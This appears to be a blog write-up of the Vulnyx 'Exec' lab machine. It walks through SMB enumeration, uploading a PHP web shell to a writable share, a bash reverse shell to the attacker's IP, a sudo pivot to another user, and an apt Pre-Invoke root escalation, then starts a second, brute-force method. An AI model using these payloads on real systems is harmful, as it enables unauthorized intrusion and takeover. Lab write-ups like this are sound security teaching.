 ```yaml
---
layout: single
title: Exec - Vulnyx
date: 2024-04-05
classes: wide
header:
  teaser: /assets/images/vulnyx-writeup-exec/exec_logo.png
  teaser_home_page: true
  icon: /assets/images/vulnyx.png
categories:
  - Vulnyx
  - Easy
tags:  
  - User Enumeration SMB
  - brute-force SMB
  - Abusing SUID Binaries
---
```


![Nmap-logo](/assets/images/vulnyx-writeup-exec/exec_logo.png)

## Port scanning

```bash
sudo nmap -p- -sS --min-rate 5000 -vvv -n -Pn 192.168.1.109 
[sudo] password for kali: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-04 22:53 CEST
Initiating ARP Ping Scan at 22:53
Scanning 192.168.1.109 [1 port]
Completed ARP Ping Scan at 22:53, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 22:53
Scanning 192.168.1.109 [65535 ports]
Discovered open port 22/tcp on 192.168.1.109
Discovered open port 80/tcp on 192.168.1.109
Discovered open port 139/tcp on 192.168.1.109
Discovered open port 445/tcp on 192.168.1.109
Completed SYN Stealth Scan at 22:53, 0.85s elapsed (65535 total ports)
Nmap scan report for 192.168.1.109
Host is up, received arp-response (0.000039s latency).
Scanned at 2024-05-04 22:53:37 CEST for 1s
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack ttl 64
80/tcp  open  http         syn-ack ttl 64
139/tcp open  netbios-ssn  syn-ack ttl 64
445/tcp open  microsoft-ds syn-ack ttl 64
```

## Service discovery

```bash
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIzUvGOaZF4gJoYBGR4NrMZOj32x98uVDUQ0dY0RENRdIyokD8RvJG8g9g71aoh/20m4mcEEdSyp+eE9ABu1kwk=
|   256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPrNZ9AQg+cgX4w0wabsDTAVeo9/VWThsF5efc2OzsFo
80/tcp  open  http        syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.57 (Debian)
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4.6.2
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4.6.2
MAC Address: 00:0C:29:95:29:7B (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2024-05-04T22:55:22
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 45975/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 19509/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 38466/udp): CLEAN (Failed to receive data)
|   Check 4 (port 31517/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 1h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| nbstat: NetBIOS name: EXEC, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   EXEC<00>             Flags: <unique><active>
|   EXEC<03>             Flags: <unique><active>
|   EXEC<20>             Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
```

## Method 1

We are targeting port 445 (**SMB**) for exploitation. First, we do a smb enumeration with **smbmap**:
![smbmap](/assets/images/vulnyx-writeup-exec/smbmap.png)

The scan shows very interesting information because we have read and write permissions in Server Disk.

Let`s try to login using an unauthenticated **smbclient** connection:

``` bash
smbclient //192.168.1.109/server -p 445
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> 
```

As we have write permissions on this directory, we can create a php file to get a reverse shell:

``` php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

![doorphp](/assets/images/vulnyx-writeup-exec/doorphp.png)

After that, we can go to that location with our firefox browser and try to have remote code execution privileges

![rce](/assets/images/vulnyx-writeup-exec/rce.png)

Bingo!, now we have to create a python http.server that hosts our custom index.html with our reverse shell payload:

``` bash
#!/bin/bash

bash -i >& /dev/tcp/192.168.1.110/4444 0>&1
```

We can communicate with this server using the command **curl + Our IP**. We have to URL-encode it because we are sending it through our web browser

![url-encode](/assets/images/vulnyx-writeup-exec/url-encode.png)

Finally, we start listening on port 4444 with **netcat**:

```bash
nc -lvnp 4444  
```

Now, if we send the url-encoded command, our reverse shell will pop-up

![reverse-shell](/assets/images/vulnyx-writeup-exec/reverse-shell.png)

If we list the user's privileges, we can take advantage of user pivoting:

```bash
www-data@exec:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on exec:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on exec:
    (s3cur4) NOPASSWD: /usr/bin/bash
```

``` bash
www-data@exec:/var/www/html$ sudo -u s3cur4 /bin/bash
sudo -u s3cur4 /bin/bash
id
uid=1000(s3cur4) gid=1000(s3cur4) groups=1000(s3cur4)
```

Once we are in s3cur4 user, we can list his privileges and exploit suid binaries:

```bash
sudo -l
Matching Defaults entries for s3cur4 on exec:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User s3cur4 may run the following commands on exec:
    (root) NOPASSWD: /usr/bin/apt
```

Using this payload will get us a root shell:

```bash
sudo apt update -o APT::Update::Pre-Invoke::=/bin/sh
```

![root](/assets/images/vulnyx-writeup-exec/root.png)

## Method 2

We can also enumerate this service (**SMB**) with **netexec**:

![netexec](/assets/images/vulnyx-writeup-exec/netexecEnumeration.png)

With `lookupnames root` and `rpcclient` we can search for the number related to root:

```bash
┌──(kali㉿kali)-[~]
└─$ rpcclient -U "" -N 192.168.1.109
rpcclient $> lookupnames root
root S-1-22-1-0 (User: 1)
rpcclient $>
```

By knowing the root's SID, we can enumerate system users with `lookupsids`. Searching with this information returns the user **s3cur4**:

```bash
rpcclient $> lookupsids S-1-22-1-1000
S-1-22-1-1000 Unix User\s3cur4 (1)
rpcclient $> 
```

SID 1000 often relates to the system user account.

We can brute-force this user using **netexec**:

![brute-force](/assets/images/vulnyx-writeup-exec/BruteForce.png)
